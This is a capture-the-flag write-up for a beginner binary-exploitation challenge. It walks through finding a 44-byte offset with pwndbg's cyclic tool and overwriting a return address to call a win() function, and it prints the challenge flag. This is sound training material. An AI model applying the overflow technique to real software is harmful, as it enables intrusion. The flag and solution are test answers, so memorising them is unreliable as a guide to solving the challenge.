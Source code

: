 # Baby Pwn

Overwrite return address with win function

Creator - [@PlatyPew](https://github.com/PlatyPew)

## Category

Binary Exploitation

## Question

> Easy pwn, you got this.
>
> Connect via `nc <ip address> 30004`

### Hint

None given

## Setup Guide

`docker compose up -d babypwn`

## Distribution

- babypwn: `1ce07f85271619af52997f81e97a461acc2cb33a33343448a7ca073f87115dec`
- babypwn.c: `1a722d9f4f82d6f69e19a23948cf96a2644020229f52658ec9b4a5dcb397c7d2`

## Solution

Use cyclic in Pwndbg to generate a de brujin sequence.

```text
pwndbg> cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```

Feed it into the binary and find the amount of padding required before hitting the return address.

```text
pwndbg> run
Size of buffer: 32
win() function: 0x804857f
Your exploit string: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
Hope you got your shell!

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
pwndbg> cyclic -l 0x6161616c
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

44 bytes are required.

Now convert the address of the win function to little endian and append it to the end of the padding.

```text
+----------+---------+
| Padding  | win()   |
| 44 bytes | 4 bytes |
+----------+---------+
```

Send the exploit and get the flag.

### Flag

`CyberBlitz{i_am_no_longer_a_baby}`

